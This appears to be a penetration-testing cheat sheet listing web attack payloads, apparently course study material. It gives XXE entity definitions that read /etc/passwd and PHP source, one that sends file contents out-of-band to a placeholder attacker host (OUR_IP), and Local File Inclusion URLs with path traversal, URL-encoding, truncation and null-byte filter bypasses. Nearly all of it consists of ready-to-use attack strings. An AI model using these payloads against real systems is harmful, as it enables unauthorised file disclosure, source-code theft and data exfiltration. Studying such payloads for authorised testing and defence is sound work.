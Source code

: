 ## Command	Description

| Command    | Description             |
|------------|-------------------------|
| `md5sum`   | MD5 hash a string       |
| `base64`   | Base64 encode a string  |

# XXE

## Code	Description

| Code                                                                                    | Description                                          |
|-----------------------------------------------------------------------------------------|------------------------------------------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">`                                     | Define External Entity to a URL                      |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">`                                             | Define External Entity to a file path                |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">`      | Read PHP source code with base64 encode filter       |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">`             | Reading a file through a PHP error                   |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">`       | Reading a file OOB exfiltration                      |

# Local File Inclusion

## Command	Description

### Basic LFI

| Command                                                               | Description                  |
|-----------------------------------------------------------------------|------------------------------|
| `/index.php?language=/etc/passwd`                                     | Basic LFI                    |
| `/index.php?language=../../../../etc/passwd`                          | LFI with path traversal      |
| `/index.php?language=/../../../etc/passwd`                            | LFI with name prefix         |
| `/index.php?language=./languages/../../../../etc/passwd`              | LFI with approved path       |

### LFI Bypasses

| Command                                                               | Description                                               |
|-----------------------------------------------------------------------|-----------------------------------------------------------|
| `/index.php?language=....//....//....//....//etc/passwd`              | Bypass basic path traversal filter                        |
| `/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` | Bypass filters with URL encoding                          |
| `/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]` | Bypass appended extension with path truncation (obsolete) |
| `/index.php?language=../../../../etc/passwd%00`                       | Bypass appended extension with null byte (obsolete)       |
| `/index.php?language=php://filter/read=convert.base64-encode/resource=config` | Read PHP with base64 filter                               |
